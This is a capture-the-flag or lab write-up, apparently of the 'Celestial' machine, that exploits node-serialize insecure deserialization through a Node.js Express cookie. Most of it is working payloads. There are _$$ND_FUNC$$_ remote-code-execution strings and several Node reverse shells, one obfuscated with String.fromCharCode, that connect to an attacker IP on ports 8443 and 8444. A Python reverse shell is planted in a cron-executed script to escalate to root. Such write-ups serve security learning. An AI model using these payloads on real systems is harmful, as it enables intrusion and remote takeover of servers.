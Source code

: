 # Celestial Notes

## Data 

IP: 
OS:
Hostname:
Machine Purpose: 
Services: Node JS Express
Service Languages: Js
Users:
Credentials:

## Objectives

## Target Map

![](Celestial-map.excalidraw.md)

## Solution Inventory Map


### Todo 

Make Excalidraw

### Done
      


Masscan did not work :/

cookiedummy.png

percent3disequals.png

```json
{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}

{"username":"FIELD1","country":"FIELD2","city":"FIELD#","num":"FIELD4-NUM"}
// Next break the cookie for enumeration
{"username":","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"4"} - "
```


expressintheburp.png

archive0.png
and
archive1.png

[Hacktricks Deserialization article](https://book.hacktricks.xyz/pentesting-web/deserialization#nodejs)'s section on Deserialization attacks for [Nodejs](https://nodejs.org/en)

Test to see what is evaluated base on what reflected back to us first - make Node do maths
decodechangeandencodepoc.png

Confirming concatenation of two strings
pocandconfrmingevaluationoftype.png

Next always break for error codes:
```json
{"username":","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"4"} 
```
 Original for comparison
```json
{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}
```

![](nodealwayhasverboserrors.png)

We get a username, location that the web is running the npm module from and some directory information. With indication that is serializing with the serialization.js library. [Hacktricks](https://book.hacktricks.xyz/pentesting-web/deserialization#nodejs)
```json
"_$$ND_FUNC$$_function(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) })}"

{"username":"_$$ND_FUNC$$_function(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) })}","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}

// Third Attempt
{"username":"Dummy","country":"_$$ND_FUNC$$_function(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) })}","city":"Lametown","num":"2"}

// Second Attmept
{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"_$$ND_FUNC$$_function(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) })}","num":"2"}

// First Attempt:
{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"_$$ND_FUNC$$_function(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) })}"}
```

First attempt
firstattempt.png

Second attempt
secondattempt.png

[304 - Not Modifed](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/304) *"client redirection response code indicates that there is no need to retransmit the requested resources. It is an implicit redirection to a cached resource. This happens when the request method is a [safe](https://developer.mozilla.org/en-US/docs/Glossary/Safe/HTTP) method, such as [`GET`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/GET) or [`HEAD`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/HEAD), or when the request is conditional and uses an [`If-None-Match`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/If-None-Match) or an [`If-Modified-Since`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/If-Modified-Since) header."*

Third attempt
thirdattempt.png

Forth attempt - Different Error though, but the same as if we broke json
forthattempt.png

```
{"username":_$$ND_FUNC$$_function(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) })},"country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}

```

Copying and pasting the source code from [here](https://www.npmjs.com/package/node-serialize?activeTab=code)
funcflag.png


funcflagusage.png


line49.png

lines7475.png

Check:
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/f85f2cb4c60c5d4c869794f04c409826dc52ae86/Insecure%20Deserialization/Node.md
```json
"_$$ND_FUNC$$_function(){require('child_process').exec('ls /', function(error,stdout, stderr) { console.log(stdout) });}()"
// Invalid username
{"username":"_$$ND_FUNC$$_function(){require('child_process').exec('ls /', function(error,stdout, stderr) { console.log(stdout) });}()","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}
// pinging backski !! YAY 
{"username":"sun","country":"_$$ND_FUNC$$_function(){require('child_process').exec('ping -c 3 10.10.14.8', function(error,stdout, stderr) { console.log(stdout) });}()","city":"Lametown","num":"2"}
```

rcepocpinging.png

Node reverse shell from HackTools
```node
// I check to compare
(function(){ var net = require("net"), cp = require("child_process"), sh = cp.spawn("\cmd", []); var client = new net.Socket(); client.connect(8443, "10.10.14.8", function(){ client.pipe(sh.stdin); sh.stdout.pipe(client); sh.stderr.pipe(client); }); return /a/; })();

// https://medium.com/dont-code-me-on-that/bunch-of-shells-nodejs-cdd6eb740f73
(function(){ var net = require("net"), cp = require("child_process"), sh = cp.spawn("/bin/sh", []); var client = new net.Socket(); client.connect(8443, "10.10.14.8", function(){ client.pipe(sh.stdin); sh.stdout.pipe(client); sh.stderr.pipe(client); }); return /a/;})()
// Removing ()
function(){ var net = require("net"), cp = require("child_process"), sh = cp.spawn("/bin/sh", []); var client = new net.Socket(); client.connect(8443, "10.10.14.8", function(){ client.pipe(sh.stdin); sh.stdout.pipe(client); sh.stderr.pipe(client); }); return /a/;}()
```

```node
{"username":"sun","country":"_$$ND_FUNC$$_function(){ var net = require("net"), cp = require("child_process"), sh = cp.spawn("/bin/sh", []); var client = new net.Socket(); client.connect(8443, "10.10.14.8", function(){ client.pipe(sh.stdin); sh.stdout.pipe(client); sh.stderr.pipe(client); }); return /a/;}()","city":"Lametown","num":"2"}

// did not work pynodejsshell
{"username":"sun","country":"_$$ND_FUNC$$_function(){ eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,48,46,49,48,46,49,52,46,56,34,59,10,80,79,82,84,61,34,56,52,52,51,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}","city":"Lametown","num":"2"}
// Worked!
{"username":"sun","country":"_$$ND_FUNC$$_function(){ eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,48,46,49,48,46,49,52,46,56,34,59,10,80,79,82,84,61,34,56,52,52,51,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10)) }()","city":"Lametown","num":"2"}
```

wearesun.png

Get a second shell
```node
{"username":"sun","country":"_$$ND_FUNC$$_function(){ eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,48,46,49,48,46,49,52,46,56,34,59,10,80,79,82,84,61,34,56,52,52,52,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10)) }()","city":"Lametown","num":"2"}
```

631.png

![](scriptcron.png)

Afull version
![](probablyapathexploit.png)

Escape quotes and wait
```bash
 echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.8\",8444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")" > script.py
```

And we are root:
![](rootnopwnkit.png)

## Beyond Root Reading

https://attack.mitre.org/techniques/T1059/007/  [Chaes](https://attack.mitre.org/software/S0631) is a multistage information stealer written in several programming languages that collects login credentials, credit card numbers, and other financial information. Ialso uses NodeJS Puppeer npm package.

https://www.cybereason.com/hubfs/dam/collateral/reports/11-2020-Chaes-e-commerce-malware-research.pdf